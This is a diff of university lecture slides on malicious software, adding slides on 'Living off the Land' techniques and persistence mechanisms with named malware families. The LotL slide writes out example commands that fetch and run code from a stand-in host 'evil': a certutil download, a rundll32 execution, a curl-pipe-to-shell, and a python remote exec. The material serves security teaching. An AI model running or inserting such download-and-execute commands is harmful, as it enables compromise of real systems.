

Before and after one commit to cs-pub-ro/ISC-lectures, a Markdown page: lectures/06-malicious-software/slides.md, 2 parts joined by grey strips. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
06-malicious-software: update lecture slides

```diff
--- a/lectures/06-malicious-software/slides.md
+++ b/lectures/06-malicious-software/slides.md
@@ -371,7 +398,7 @@ class: exec-conceal
 
 **Kernel mode:**
 
-- Kernel modules (run with SYSTEM privileges / modprobe)
+- Kernel modules (run in Ring 0, bypassing user-space checks)
 - System call table patching
 
 **Other:**
@@ -389,6 +416,56 @@ class: exec-conceal
 .exec-conceal.col-left p,
 .exec-conceal.col-left li { font-size: 0.88em; }
 </style>
+
+---
+
+# Living off the Land (LotL)
+
+Why drop a custom `.exe` when the OS already ships signed tools?
+
+- **Goals:** download payloads, execute code in memory (**fileless**), dump credentials, bypass AppLocker / AV file signatures
+- Abuse legitimate, **vendor-signed** system binaries:
+  - Windows: **LOLBins** ([lolbas-project.github.io](https://lolbas-project.github.io))
+
+certutil.exe -urlcache -split -f http://evil/p.dll p.dll
+
+rundll32.exe p.dll,EntryPoint
+
+  - Linux/Unix: **GTFOBins** ([gtfobins.github.io](https://gtfobins.github.io))
+
+
+curl -fsSL http://evil/bot.sh | sh
+
+python3 -c 'import urllib.request as u; exec(u.urlopen("...").read())'
+
+---
+layout: two-cols
+class: cols-50-50
+---
+
+# Persistence: Windows vs. Linux
+
+**Windows**
+- **Registry Run keys** (`HKCU\...\CurrentVersion\Run`)
+  - *RedLine, TrickBot, AsyncRAT*
+- **Scheduled Tasks & Services** (`schtasks`, `sc.exe`)
+  - *QakBot, WannaCry*
+- **DLL Side-Loading** (drop malicious DLL next to clean signed `.exe`)
+  - *PlugX / Mustang Panda*
+- **WMI Event Subscriptions** (fileless, runs as `SYSTEM`)
+  - *APT29 (Cozy Bear), NotPetya*
+
+::right::
+
+**Linux**
+- **`cron` jobs & `systemd` units** (`/etc/crontab`, `/etc/systemd/system/*.service`)
+  - *Kinsing, XorDDoS*
+- **Shell & SSH configs** (`~/.bashrc`, `~/.ssh/authorized_keys`)
+  - *Cloud cryptominers, SSH worms*
+- **Dynamic linker hijacking** (`/etc/ld.so.preload`, `LD_PRELOAD`)
+  - *Symbiote, Jynx userland rootkit*
+- **Loadable Kernel Modules** (`/etc/modules-load.d/`)
+  - *Diamorphine, Reptile*
 
 ---
 layout: two-cols
```
Also changed, not shown: other parts of lectures/06-malicious-software/slides.md (+64 -5 lines).
